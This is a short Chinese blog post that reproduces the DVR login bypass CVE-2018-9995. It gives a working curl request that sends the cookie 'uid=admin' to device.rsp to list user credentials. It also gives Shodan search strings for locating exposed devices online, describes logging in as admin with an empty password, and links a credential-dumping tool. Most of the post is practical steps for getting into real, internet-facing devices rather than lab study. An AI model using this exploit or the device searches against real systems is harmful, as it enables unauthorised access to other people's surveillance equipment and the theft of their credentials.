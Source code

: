 ```yaml
---
title: DVR登录绕过漏洞（CVE-2018-9995）
categories:
- CVE-2018-9995
tags:
- 漏洞
updated: 2018-05-22
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。



网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”,如图:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_01.png" />



条件:存在device.rsp页面并可访问（一定要可以访问的）

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_03.png" />



还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```
:<https://github.com/ezelf/CVE-2018-9995_dvr_credentials>
```

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你

 

​
